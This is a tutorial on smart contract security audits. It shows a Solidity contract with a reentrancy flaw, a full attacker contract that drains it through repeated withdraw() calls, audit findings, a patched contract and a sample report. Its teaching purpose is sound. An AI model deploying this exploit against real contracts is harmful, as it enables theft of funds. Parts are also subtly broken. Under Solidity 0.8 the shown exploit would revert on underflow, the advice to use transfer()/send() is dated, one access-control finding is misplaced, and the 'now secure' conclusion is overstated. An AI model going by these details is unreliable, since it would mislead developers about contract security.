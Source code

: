 # 📌 Comprehensive Deep Dive into Smart Contract Security Audits

This guide covers:

1. A real-world smart contract attack simulation (Video Walkthrough)
2. A full security audit example with real vulnerabilities
3. How to write a professional security audit report

## 🎥 1. Video Walkthrough of an Attack Simulation

We'll simulate a real-world smart contract exploit step by step, demonstrating how an attacker could exploit vulnerabilities.

**💀 Scenario:** A Reentrancy Attack on a Vulnerable Contract

We'll exploit a poorly designed withdrawal function that allows attackers to drain funds.

**🔍 Step 1:** Deploy the Vulnerable Contract

This contract allows users to deposit and withdraw ETH but contains a reentrancy flaw.

```solidity
// Vulnerable contract
pragma solidity ^0.8.0;

contract VulnerableBank {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint256 amount) public {
        require(balances[msg.sender] >= amount, "Insufficient balance");
        (bool success, ) = msg.sender.call{value: amount}("");  // 🚨 Reentrancy risk!
        require(success, "Transfer failed");
        balances[msg.sender] -= amount;  // ❌ Updates state after transfer!
    }
}
```

**🔍 Step 2:** Exploit the Vulnerability

We create a malicious contract that repeatedly calls `withdraw()` before the balance updates.

```solidity
// Attacker contract
pragma solidity ^0.8.0;

import "./VulnerableBank.sol";

contract Attacker {
    VulnerableBank public vulnerableBank;

    constructor(address _vulnerableBank) {
        vulnerableBank = VulnerableBank(_vulnerableBank);
    }

    function attack() public payable {
        vulnerableBank.deposit{value: msg.value}();
        vulnerableBank.withdraw(msg.value);
    }

    receive() external payable {
        if (address(vulnerableBank).balance > 1 ether) {
            vulnerableBank.withdraw(1 ether);
        }
    }
}
```

**🎬 Step 3:** Video Walkthrough

A video simulation of the attack would demonstrate:

1. Deploying the vulnerable contract.
2. Deploying the attacker contract.
3. Running the exploit to drain funds.

_Note: A video demonstration can be created using tools like Remix IDE to visualize the attack._

## 🔎 2. Full Security Audit Example

We'll now conduct a real-world smart contract audit using best practices.

**📝 Contract to Audit**

The following contract has multiple security issues.

```solidity
pragma solidity ^0.8.0;

contract Token {
    mapping(address => uint256) public balances;

    function transfer(address to, uint256 amount) public {
        require(balances[msg.sender] >= amount, "Insufficient balance");
        to.call{value: amount}("");  // 🚨 Unsafe external call!
        balances[msg.sender] -= amount;  // ❌ Updates state after transfer!
    }
}
```

**🔍 Audit Findings**

| Severity    | Issue                    | Impact                       | Fix                          |
| ----------- | ------------------------ | ---------------------------- | ---------------------------- |
| 🚨 Critical | Reentrancy Attack        | Can drain contract funds     | Use `ReentrancyGuard`        |
| ⚠️ High     | Unsafe `call()` function | Can lead to loss of funds    | Use `transfer()` or `send()` |
| ⚡ Medium   | No Access Control        | Anyone can call `transfer()` | Implement `onlyOwner`        |

**✅ Fixed Contract**

```solidity
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract SecureToken is ReentrancyGuard {
    mapping(address => uint256) public balances;

    function transfer(address to, uint256 amount) public nonReentrant {
        require(balances[msg.sender] >= amount, "Insufficient balance");
        balances[msg.sender] -= amount;
        payable(to).transfer(amount);
    }
}
```

_Fixes Applied:_

- ✔️ State updated before external calls
- ✔️ `nonReentrant` modifier added
- ✔️ Uses `transfer()` instead of unsafe `call()`

## 📝 3. Writing a Professional Security Audit Report

A well-structured audit report includes:

1. **Introduction** (Scope, Objectives, Methodology)
2. **Summary of Findings** (Critical, High, Medium, Low)
3. **Detailed Vulnerability Analysis**
4. **Fix Recommendations**

**📄 Example Audit Report**

**📌 Project:** Token Smart Contract  
**📆 Date:** 2025-03-01  
**📋 Audited By:** Security Auditor

**🔎 1. Introduction**

This audit aims to identify security flaws in the Token contract.

_Scope:_

- `transfer()` function security
- Reentrancy risks
- External call safety

**⚠️ 2. Summary of Findings**

| Severity    | Issue           | Impact                     |
| ----------- | --------------- | -------------------------- |
| 🚨 Critical | Reentrancy      | Full contract balance loss |
| ⚠️ High     | Unsafe `call()` | External call can fail     |

**🛠️ 3. Fix Recommendations**

| Issue           | Fix                   |
| --------------- | --------------------- |
| Reentrancy      | Add `ReentrancyGuard` |
| Unsafe `call()` | Use `transfer()`      |

**🔍 4. Conclusion**

All critical issues have been patched, making the contract secure.
